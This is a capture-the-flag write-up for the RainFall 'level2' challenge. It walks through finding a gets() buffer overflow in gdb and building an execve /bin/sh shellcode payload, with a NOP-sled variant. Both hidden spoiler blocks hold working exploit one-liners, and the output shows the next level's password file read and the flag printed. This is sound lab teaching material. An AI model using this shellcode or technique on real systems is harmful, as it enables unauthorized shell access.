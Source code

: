 # Level2

When we take a look at the [decomp](./level2_decomp.c), we notice the use of `gets()` a line to check if an address is located in the `0xb0000000` range.
We can also see a call to `strdup()`.

## Exploit

We will first need to find the size of our buffer, to do that, we fill it with characters until it behaves weirdly:

```bash
level2@RainFall:~$ ./level2 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnoooopppp
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppJ����
```

Here we can see that the buffer is 64 chars long. Nice we found one of the components!

So we need to find the return address and where it is located compared to our buffer. To do that we will use the same technique we used to find the size of our buffer such as:

```bash
level2@RainFall:~$ gdb level2 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b *p+30
Breakpoint 1 at 0x80484f2
(gdb) r
Starting program: /home/user/level2/level2 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuu

Breakpoint 1, 0x080484f2 in p ()
(gdb) x/s $ebp+4
0xbffff72c:	 "uuuu"
(gdb) 
```

Now we can calculate the difference of size which is : `qqqqrrrrssssttttuuuu` or 16 bytes before overflowing on the return address.

Now that we have the size of everything, we can craft our payload which will be :

`[shellcode] + [59 filler] + [strdup allocated addr]`

It will jump to our shellcode, execute it and voilà !

Here's the exploit:

<details>
    <summary>Spoiler</summary>

```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*59 + "\x08\xa0\x04\x08"' > /var/crash/tmp.txt
level2@RainFall:~$ cat /var/crash/tmp.txt - | ./level2 
j
 X�Rh//shh/bin��1�̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

</details>

### Slight variation using NOP-slide

We can also use another technique called NOP-sliding/sled which means basicaly; filling a part of memory with NO-OPERATION asm instructions or `\x90`.

The payload will slightly change:

`[NOP slide] + [payload] + [filler] + [malloc addr]`

Which will result into this:

<details>
    <summary>Spoiler</summary>

```bash
level2@RainFall:~$ python2 -c 'print "\x90"*43 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*16 + "\x08\xa0\x04\x08"' > /var/crash/shellcode.exploit
level2@RainFall:~$ cat /var/crash/shellcode.exploit - | ./level2
�������������������������������������������j
                                            X�Rh//shh/bin��1��aaaaaaaaaaa�
whoami
level3
```

</details>

## Flag

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

